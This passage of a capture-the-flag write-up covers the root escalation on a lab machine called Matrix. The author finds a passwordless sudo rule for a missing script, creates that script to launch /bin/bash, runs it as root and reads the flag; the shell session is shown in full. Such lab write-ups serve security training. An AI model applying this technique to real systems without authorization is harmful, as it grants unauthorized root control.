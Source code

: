 ## Escalation to Root

Running sudo -l again, now we could execute a script called oracle as root. but when I cd to /home/trinity I didnt' find this script. so, I created a scirpt with a same name containing the word "/bin/bash"
```
sh-4.4$ sudo -l
User trinity may run the following commands on matrix:
    (root) NOPASSWD: /home/trinity/oracle
sh-4.4$ cd /home/trinity/
sh-4.4$ ls -la
total 72
drwxr-xr-x 14 trinity trinity 4096 Apr  3  2019 .
drwxr-xr-x  7 root    root    4096 Aug  6  2018 ..
-rw-------  1 trinity trinity   52 Aug  6  2018 .Xauthority
-rw-------  1 trinity trinity    6 Apr  3  2019 .bash_history
drwxr-xr-x  5 trinity trinity 4096 Aug  6  2018 .cache
drwxr-xr-x 11 trinity trinity 4096 Aug  6  2018 .config
drwx------  3 trinity trinity 4096 Aug  6  2018 .dbus
-rw-------  1 trinity trinity   16 Aug  6  2018 .esd_auth
-rw-r--r--  1 trinity trinity 3729 Oct 23  2017 .screenrc
drwxr-xr-x  2 trinity trinity 4096 Sep 25 19:41 .ssh
drwx------  4 trinity trinity 4096 Aug  6  2018 .thumbnails
drwxr-xr-x  2 trinity trinity 4096 Aug  6  2018 Desktop
drwxr-xr-x  2 trinity trinity 4096 Aug  6  2018 Documents
drwxr-xr-x  2 trinity trinity 4096 Aug  6  2018 Downloads
drwxr-xr-x  2 trinity trinity 4096 Aug  6  2018 Music
drwxr-xr-x  2 trinity trinity 4096 Aug  6  2018 Pictures
drwxr-xr-x  2 trinity trinity 4096 Aug  6  2018 Public
drwxr-xr-x  2 trinity trinity 4096 Aug  6  2018 Videos
sh-4.4$ vi oracle
sh-4.4$ chmod +x oracle 
sh-4.4$ sudo ./oracle 
sh-4.4# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-4.4# whoami
root
sh-4.4# cd ~
sh-4.4# cat flag.txt 

             ,----------------,              ,---------,
        ,-----------------------,          ,"        ,"|
      ,"                      ,"|        ,"        ,"  |
     +-----------------------+  |      ,"        ,"    |
     |  .-----------------.  |  |     +---------+      |
     |  |                 |  |  |     | -==----'|      |
     |  |  Matrix is      |  |  |     |         |      |
     |  |  compromised    |  |  |/----|`---=    |      |
     |  |  C:\>_reload    |  |  |   ,/|==== ooo |      ;
     |  |                 |  |  |  // |(((( [33]|    ,"
     |  `-----------------'  |," .;'| |((((     |  ,"
     +-----------------------+  ;;  | |         |,"     -morpheus AKA (unknowndevice64)-
        /_)______________(_/  //'   | +---------+
   ___________________________/___  `,
  /  oooooooooooooooo  .o.  oooo /,   \,"-----------
 / ==ooooooooooooooo==.o.  ooo= //   ,`\--{)B     ,"
/_==__==========__==_ooo__ooo=_/'   /___________,"
`-----------------------------'

-[ 7h!5 !5 n07 7h3 3nd, m47r!x w!11 r37urn ]-

```
